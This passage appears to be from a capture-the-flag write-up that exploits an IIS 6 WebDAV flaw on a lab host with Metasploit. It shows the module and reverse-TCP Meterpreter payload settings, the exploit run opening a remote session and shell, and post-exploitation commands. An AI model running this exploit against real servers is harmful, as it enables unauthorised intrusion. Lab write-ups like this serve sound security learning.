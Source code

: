 ```

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         10.10.10.15      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.16      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name

```

Resulted in Meterpreter session, so I converted it to shell and checked my credentials with whoami and found the Administrator account and the likely user account, Lakis:

```
[msf](Jobs:0 Agents:0) exploit(windows/iis/iis_webdav_scstoragepathfromurl) >> exploit

[*] Started reverse TCP handler on 10.10.14.16:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.16:4444 -> 10.10.10.15:1030) at 2024-02-01 16:09:34 -0800

(Meterpreter 1)(c:\windows\system32\inetsrv) > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 1516 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami 
whoami 
nt authority\network service

------------------------------------------

C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings

04/12/2017  09:19 PM    <DIR>          .
04/12/2017  09:19 PM    <DIR>          ..
```